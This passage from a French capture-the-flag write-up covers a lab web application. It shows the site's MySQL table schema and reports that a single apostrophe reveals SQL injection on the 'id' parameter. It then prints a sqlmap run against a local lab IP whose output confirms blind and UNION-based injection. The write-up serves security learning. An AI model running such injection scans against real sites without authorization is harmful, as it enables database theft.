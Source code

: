 Ces informations seront très utiles si une injection SQL venait à être trouvée sur le site... _you don't say?_

```console
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

### Injection SQL et dump de la base de données

L'insertion d'une seule apostrophe suffit à démontrer la présence d'une [injection SQL](https://owasp.org/www-community/attacks/SQL_Injection), a minima sur le champ ```id```.

![Affichage de l'image CTF4_SQLi1.png](images/CTF4_SQLi1.png)

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2"

--snip--
[12:35:46] [INFO] testing connection to the target URL
[12:35:46] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:35:46] [INFO] testing if the target URL content is stable
[12:35:46] [INFO] target URL content is stable
--snip--
[12:35:46] [INFO] testing if GET parameter 'title' is dynamic
[12:35:46] [WARNING] GET parameter 'title' does not appear to be dynamic
[12:35:46] [WARNING] heuristic (basic) test shows that GET parameter 'title' might not be injectable
[12:35:46] [INFO] heuristic (XSS) test shows that GET parameter 'title' might be vulnerable to cross-site scripting (XSS) attacks
[12:35:46] [INFO] testing for SQL injection on GET parameter 'title'
--snip--
[12:35:46] [WARNING] GET parameter 'title' does not seem to be injectable
[12:35:46] [INFO] testing if GET parameter 'id' is dynamic
[12:35:46] [INFO] confirming that GET parameter 'id' is dynamic
[12:35:46] [INFO] GET parameter 'id' is dynamic
[12:35:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:35:46] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
--snip--
[12:35:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[12:35:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:35:46] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:35:46] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:35:46] [INFO] target URL appears to have 5 columns in query
[12:35:46] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
```